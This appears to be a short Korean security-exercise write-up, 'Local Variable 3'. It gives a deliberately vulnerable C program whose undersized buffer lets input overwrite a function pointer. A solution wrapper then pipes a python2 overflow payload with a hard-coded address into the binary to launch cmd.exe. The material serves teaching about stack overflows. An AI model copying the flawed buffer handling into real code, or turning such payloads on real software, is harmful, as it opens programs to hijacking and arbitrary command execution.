

# Local Variable 3

### Question

- cmd.exe가 실행되도록 입력 페이로드 구현

```
void shell() {
	system("cmd.exe");
}void printit() {
	printf("I'm sorry\\n");
}int main()
{
	int crap;
	void(*call)() = printit;
	char buf[10];
	fgets(buf, 29, stdin);
	call();
}

```


<br>


### Result

```
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char *argv[])
{
	char cmd[1024] = "python2 -c \"print \'A\'*10 + \'\\x60\\x14\\x40\\x00\'\"";
	char *fname = ".\\local_var_3.exe";

	strcat(cmd, " | ");
	strcat(cmd, fname);

	//printf("%s\n", cmd);
	system(cmd);

	return 0;
}
```


